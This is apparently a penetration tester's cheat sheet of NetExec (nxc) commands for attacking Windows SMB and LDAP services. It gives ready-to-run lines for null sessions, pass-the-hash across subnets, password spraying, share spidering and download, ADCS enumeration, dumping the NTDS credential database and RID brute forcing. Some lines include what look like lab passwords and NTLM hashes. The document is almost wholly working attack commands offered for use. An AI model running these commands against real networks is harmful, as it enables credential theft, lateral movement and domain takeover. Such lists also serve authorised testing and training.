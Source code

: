 - Check : 
```bash
# Target format
netexec smb ms.evilcorp.org
netexec smb 192.168.1.0 192.168.0.2
```

- Null session : 
```bash
# Null session
netexec smb 192.168.10.1 -u "" up ""
```
- Pass the hash : 
```bash
# Pass the hash against a subnet
netexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH' --local-auth
netexec smb 172.16.157.0/24 -u administrator -H 'NTHASH'
```
- Enum smb shared folder : 
```sh
netexec smb $t2 -u 'rsmith' -p 'IHateEric2' --shares
```
- Password spraying : 
```sh
netexec smb $t -u user.txt -p user.txt --no-bruteforce --continue-on-success
netexec ldap $t -u usernames.txt -p 'BabyStart123!' --local-auth
```

- Download Share : 
```sh
netexec smb 10.10.65.99 -u "trainee" -p "trainee" -M spider_plus -o DOWNLOAD_FLAG=True~
```

- Certificate : 
```sh
nxc ldap 10.10.137.165 -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -M adcs
nxc ldap 10.10.137.165 -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -M adcs -o SERVER=hybrid-DC01-CA
```

- Credential dumping
```sh
nxc smb 10.10.137.165 -u Administrator -H '60701e8543c9f6db1a2af3217386d3dc' --ntds
```

- Check if there is an AV : 
```sh
nxc smb <ip> -u user -p pass -M enum_av
```

- Password Policy
```sh
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol
```

- Brute force Rid (Other way to enumerate users )
```sh
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```

- Check MAQ :
```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```
